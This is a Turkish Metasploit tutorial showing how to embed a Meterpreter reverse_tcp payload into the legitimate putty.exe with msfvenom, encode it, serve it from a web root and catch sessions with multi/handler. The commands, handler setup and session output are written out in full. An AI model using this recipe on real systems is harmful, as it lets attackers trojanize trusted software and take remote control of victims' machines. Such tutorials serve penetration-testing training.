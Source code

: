 ```yaml
---
draft: false

title:  'MSF EXE Arka Kapısı'
date: '2017-06-16T14:00:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'Bir hedef bilgisayara yönelik olarak özel bir .exe dosyası oluşturmak ve içine kodlar gömmek gerçekten uzun zaman alabilir. Bunun yerine, zaten var olan bir .exe uzantılı dosyanın içine, Metasploit Payload modülleri yerleştirebilirsiniz.' 
 
url:  /tr/msf-exe-arka-kapisi/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Bir EXE Dosyası İle Arka Kapı Oluşturma



Bir hedef bilgisayara yönelik olarak özel bir .exe dosyası oluşturmak ve içine kodlar gömmek gerçekten uzun zaman alabilir. Bunun yerine, zaten var olan bir .exe uzantılı dosyanın içine, Metasploit Payload modülleri yerleştirebilirsiniz.



Bu yazıda, bir .exe dosyasının içine, Metasploit Payload yerleştirip encode etmeyi göreceğiz. Bu sayede, kodlanmış özel .exe dosyasını çalıştıran kullanıcının bilgisayarından bizim bilgisayarımıza Meterpreter oturum açılacaktır.



## Exe Dosyası İndirme



Örneğimizde, `putty.exe` isimli dosyayı kullanacağız. Öncelikle bu dosyayı indirelim. Encode edilmiş .exe dosyamızı web sayfasından dağıtacağımıza göre, Kali Linux içinde sunucumuzun bulunduğu `/var/www/` klasörüne gidelim ve indirmeyi aşağıdaki komut ile başlatalım.


```bash
root@kali:/var/www# wget <a href="http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe">http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe</a>
--2015-07-21 12:01:27--  <a href="http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe">http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe</a>

Resolving the.earth.li **(**the.earth.li**)**... 46.43.34.31, 2001:41c8:10:b1f:c0ff:ee:15:900d
Connecting to the.earth.li **(**the.earth.li**)**|46.43.34.31|:80... connected.
HTTP request sent, awaiting response... 302 Found
Location: <a href="http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe">http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe</a> **[**following]
--2015-07-21 12:01:27--  <a href="http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe">http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe</a>
Reusing existing connection to the.earth.li:80.
HTTP request sent, awaiting response... 200 OK
Length: 524288 **(**512K**)** **[**application/x-msdos-program]
Saving to: `putty.exe'

100%[=========================================================================================================>] 524,288      815K/s   in 0.6s    

2015-07-21 12:01:28 (815 KB/s) - `putty.exe' saved **[**524288/524288]

root@kali:/var/www#
```



Şimdi, bu indirdiğimiz `putty.exe` dosyasının içine, `msfvenom` komutunu kullanarak bir Metasploit Payload modülünü yerleştireceğiz. Yerleştireceğimiz modül, `windows/meterpreter/reverse_tcp` modülüdür ve LHOST olarak kendi IP adresimiz olan 192.168.1.101 IP adresini ayarlayacağız.



Next, we use msfvenom to inject a meterpreter reverse payload into our executable and encoded it 3 times using shikata_ga_nai and save the backdoored file into our web root directory.



root@kali:/var/www# msfvenom -a x86 –platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe -o puttyX.exe



Found 1 compatible encoders Attempting to encode payload with 3 iterations of x86/shikata_ga_nai x86/shikata_ga_nai succeeded with size 326 (iteration=0) x86/shikata_ga_nai succeeded with size 353 (iteration=1) x86/shikata_ga_nai succeeded with size 380 (iteration=2) x86/shikata_ga_nai chosen with final size 380 Payload size: 380 bytes Saved as: puttyX.exe root@kali:/var/www#


```bash

İşlem başarıyla sonuçlandığında elimizde ```puttyX.exe``` isimli kodlanmış ve içine payload yerleştirilmiş bir çalıştırılabilir dosya bulunmaktadır.

.exe dosyasının içine, reverse payload yerleştirildiğine göre, bu payload bizim yerel bilgisayarımıza bağlanmak isteyecektir. O zaman, ```msfconsole``` içerisinde bir dinleyici modül çalıştırmalıyız ki bağlantı mümkün olsun.

Bunun için ```exploit/multi/handler``` modülünü kullanalım ve gerekli ayarları yapalım.

```sh
msf > use exploit/multi/handler 

msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp 
PAYLOAD => windows/meterpreter/reverse_tcp

msf exploit(handler) > set LHOST 192.168.1.101
LHOST => 192.168.1.101

msf exploit(handler) > set LPORT 443
LPORT => 443

msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.1.101:443 
[*] Starting the payload handler...
```



Artık dinleme modülü de çalışmaktadır. Bu aşamadan sonra yapılması gereken, oluşturduğumuz .exe dosyasını web üzerinden dağıtmaktır. Herhangi bir kullanıcı bu dosyayı çalıştırdığında, otomatik olarak yerel bilgisayarımıza bağlanacak ve Meterpreter oturumu açılacaktır.


```bash
> Sending stage **(**749056 bytes**)** to 192.168.1.201
> Meterpreter session 1 opened **(**192.168.1.101:443 -> 192.168.1.201:1189**)** at Sat Feb 05 08:54:25 -0700 2011

meterpreter > getuid
Server username: XEN-XP-SPLOIT\Administrator
meterpreter >
```



Bu yazıda anlatılan işlemler ve .exe dosyasının dağıtılması, göründüğünden daha uzun süre alabilir. Burada sadece işlemin mantığı açıklanmaya çalışılmıştır.
